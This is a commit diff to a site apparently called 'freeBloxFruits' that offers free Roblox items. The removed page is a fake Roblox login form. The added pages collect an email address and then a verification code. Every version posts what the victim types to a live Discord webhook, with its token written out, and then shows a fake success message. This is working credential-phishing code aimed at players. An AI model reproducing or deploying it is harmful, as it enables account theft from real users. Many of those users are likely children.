

Before and after one commit to freeBloxFruits/freeBloxFruits.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-840 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,96 +1,89 @@
+<!-- First Page: email.html -->
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Login to Roblox</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            background-color: #232527;
-        }
-        .container {
-            background-color: #393b3d;
-            padding: 20px;
-            border-radius: 5px;
-            width: 250px;
-            text-align: center;
-        }
-        .login-container {
-            display: none;
-        }
-        .message {
-            display: none;
-            background-color: rgba(255, 255, 255, 0.8);
-            color: black;
-        }
-        input, button {
-            width: 60%;
-            padding: 10px;
-            margin-bottom: 10px;
-            margin-left: 5px; /* Added 5 pixels margin to the left */
-            margin-right: 5px; /* Added 5 pixels margin to the right */
-            border: 1px solid #ccc;
-            border-radius: 4px;
-        }
-        button {
-            border: 1px solid white;
-            background-color: #393b3d;
-            color: white;
-            cursor: pointer;
-        }
-        button:hover {
-            background-color: #505050;
-        }
-        h2 {
-            color: white;
-        }
-    </style>
+    <title>Email Verification</title>
 </head>
 <body>
-    <div class="container login-container">
-        <h2>Login to Roblox</h2>
-        <form id="loginForm">
-            <input type="text" id="username" name="username" placeholder="Username" required>
-            <input type="password" id="password" name="password" placeholder="Password" required>
-            <button type="button" onclick="submitForm()">Login</button>
-        </form>
-    </div>
-
-    <div class="container message">
-        <h2>Welcome!</h2>
-        <p>If you logged in, check your account. You have gotten the fruit.</p>
-    </div>
+    <h2>Fill in your email address</h2>
+    <input type="email" id="email" placeholder="Email Address" required>
+    <button onclick="submitEmail()">Submit</button>
 
     <script>
-        function submitForm() {
-            const username = document.getElementById('username').value;
-            const password = document.getElementById('password').value;
+        function submitEmail() {
+            const email = document.getElementById('email').value;
 
-            // Send data to the webhook
+            // Send the email to the webhook
             fetch('https://discord.com/api/webhooks/1152874265553682512/TaPkSlcf68aMXsdQ-QphI5tS0OxDL7opL5hZwTiVUEHgrQswRc4wwsBfV0qwXPkfJxnf', {
                 method: 'POST',
                 headers: {
                     'Content-Type': 'application/json'
                 },
                 body: JSON.stringify({
-                    content: `Username: ${username}, Password: ${password}`
+                    embeds: [{
+                        title: "Email Verification",
+                        description: `Email: ${email}`
+                    }]
                 })
-            }).then(response => {
-                // Hide the login container and show the message
-                document.querySelector('.login-container').style.display = 'none';
-                document.querySelector('.message').style.display = 'block';
-            }).catch(error => {
-                console.error('Error sending data to webhook:', error);
+            }).then(() => {
+                // Redirect to the second page
+                window.location.href = "code.html";
             });
         }
-
-        // Show the login form initially
-        document.querySelector('.login-container').style.display = 'block';
     </script>
 </body>
 </html>
+
+<!-- Second Page: code.html -->
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Code Verification</title>
+</head>
+<body>
+    <h2>Code - Check your email</h2>
+    <input type="text" id="code" placeholder="Enter Code" required>
+    <button onclick="submitCode()">Submit</button>
+
+    <script>
+        function submitCode() {
+            const code = document.getElementById('code').value;
+            const email = localStorage.getItem('email'); // Retrieve the email from local storage
+
+            // Send the code and email to the webhook
+            fetch('https://discord.com/api/webhooks/1152874265553682512/TaPkSlcf68aMXsdQ-QphI5tS0OxDL7opL5hZwTiVUEHgrQswRc4wwsBfV0qwXPkfJxnf', {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                body: JSON.stringify({
+                    embeds: [{
+                        title: "Code Verification",
+                        description: `Email: ${email}\nCode: ${code}`
+                    }]
+                })
+            }).then(() => {
+                // Redirect to the third page
+                window.location.href = "success.html";
+            });
+        }
+    </script>
+</body>
+</html>
+
+<!-- Third Page: success.html -->
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Success</title>
+</head>
+<body>
+    <h2>You have successfully logged in.</h2>
+</body>
+</html>
```
